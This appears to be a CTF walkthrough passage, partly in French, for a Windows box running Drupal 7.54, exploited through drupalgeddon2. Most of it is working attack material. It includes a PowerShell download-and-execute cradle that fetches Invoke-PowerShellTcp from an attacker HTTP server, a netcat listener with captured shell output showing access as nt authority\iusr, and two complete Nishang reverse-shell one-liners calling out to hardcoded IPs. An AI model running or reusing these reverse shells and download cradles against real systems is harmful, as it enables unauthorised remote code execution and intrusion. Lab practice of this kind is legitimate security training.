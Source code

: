 Update the last line with IP/port
```
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 4443
```

Setup a server
```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [29/Aug/2019 23:08:42] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

Setup nc
```
# nc -lvp 4443
listening on [any] 4443 ...
10.10.10.9: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.9] 49335
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54>dir


    Directory: C:\inetpub\drupal-7.54

```
```
Download ps script and run it
drupalgeddon2>> powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14:8000/Invoke-PowerShellTcp.ps1')
```
```
whoami
nt authority\iusr
```
On obtient un shell


## Nishang one liner : à tester
```
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
#$client = New-Object System.Net.Sockets.TCPClient('192.168.254.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

#$sm=(New-Object Net.Sockets.TCPClient('192.168.254.1',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
